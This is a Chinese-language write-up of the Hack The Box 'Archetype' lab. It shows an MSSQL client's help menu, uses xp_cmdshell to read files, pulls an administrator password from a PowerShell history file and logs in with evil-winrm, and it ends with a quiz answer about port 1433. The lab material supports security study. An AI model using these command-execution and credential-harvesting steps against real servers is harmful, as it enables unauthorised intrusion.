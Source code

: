 进入数据库后，可以用help来查看相关的信息：
```
SQL (ARCHETYPE\sql_svc  dbo@master)> help

lcd {path}                 - changes the current local directory to {path}
exit                       - terminates the server process (and this session)
enable_xp_cmdshell         - you know what it means
disable_xp_cmdshell        - you know what it means
enum_db                    - enum databases
enum_links                 - enum linked servers
enum_impersonate           - check logins that can be impersonated
enum_logins                - enum login users
enum_users                 - enum current db users
enum_owner                 - enum db owner
exec_as_user {user}        - impersonate with execute as user
exec_as_login {login}      - impersonate with execute as login
xp_cmdshell {cmd}          - executes cmd using xp_cmdshell
xp_dirtree {path}          - executes xp_dirtree on the path
sp_start_job {cmd}         - executes cmd using the sql server agent (blind)
use_link {link}            - linked server to use (set use_link localhost to go back to local or use_link .. to get back one step)
! {cmd}                    - executes a local shell cmd
show_query                 - show query
mask_query                 - mask query
```

可以看到xp_cmdshel可以执行命令，这个sql账户有普通用户的权限，所以如果后面传反shell失败的话，可以用type直接读取user.txt，但是后面获取管理员凭证不好搞，因为需要工具winPEAS来找到登录的日志文件，所以能传反shell尽量传反shell，这个shell麻烦且不稳定，但是传不了就算了(我就属于死活传不上去的)。

后面传不了反shell，直接崩了...

user.txt位置：
```
C:\Users\sql_svc\Desktop
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Desktop;type user.txt"
```

管理员凭证位置：
```
C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\
xp_cmdshell "type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt"
输出：
net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!
```

可以直接用evil-winrm登录：
```
evil-winrm -i 10.129.95.187 -u administrator -p MEGACORP_4dm1n!!
```
密码的两个!对命令执行有干扰，如果执行出现问题，可以把-p参数去掉，等需要输入密码时再单独输密码，root.txt在Desktop(懒得写了)。


### 哪个 TCP 端口托管数据库服务器？
答案：1433
